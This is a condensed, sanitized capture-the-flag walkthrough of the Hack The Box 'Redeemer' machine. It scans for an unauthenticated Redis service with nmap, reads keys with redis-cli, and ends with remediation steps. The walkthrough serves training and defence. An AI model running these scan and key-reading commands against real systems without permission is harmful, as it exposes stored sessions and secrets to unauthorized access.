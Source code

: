 # HTB Starting Point — Redeemer (Redis) | Professional Walkthrough

**Difficulty:** Very Easy  •  **Category:** Service Enumeration / Misconfiguration  •  **OS:** Linux  •  **Focus:** Redis (TCP/6379)

> Sanitized: no flags, credentials, or live target details.

## Executive Summary
The target exposes **Redis** on **TCP/6379** with **no authentication**. We confirm with `nmap`, safely enumerate with `redis-cli` (`INFO keyspace`, `SCAN`), and read a benign value. In real environments this often exposes sessions, secrets, and config.

**Risks:** OWASP A05; CWE-306; CWE-200.

## Phases (condensed)
**Recon (ports):**
```bash
sudo nmap -Pn -sS --min-rate 3000 -p- <TARGET_IP> -oA nmap/full
```
**Service/Version:**
```bash
sudo nmap -Pn -sS -sV -sC -p 6379 <TARGET_IP> -oA nmap/sv
```
**Redis interaction:**
```bash
redis-cli -h <TARGET_IP> -p 6379
> INFO keyspace
> SCAN 0 MATCH *flag* COUNT 100
> TYPE flag
> GET flag      # redacted
```

## Remediation (summary)
Bind to loopback/VPC, enable AUTH/ACL (Redis ≥6), use TLS, reduce command surface, avoid long-lived secrets, monitor usage.

See `FINDINGS.md` for detailed risk & re-test steps.
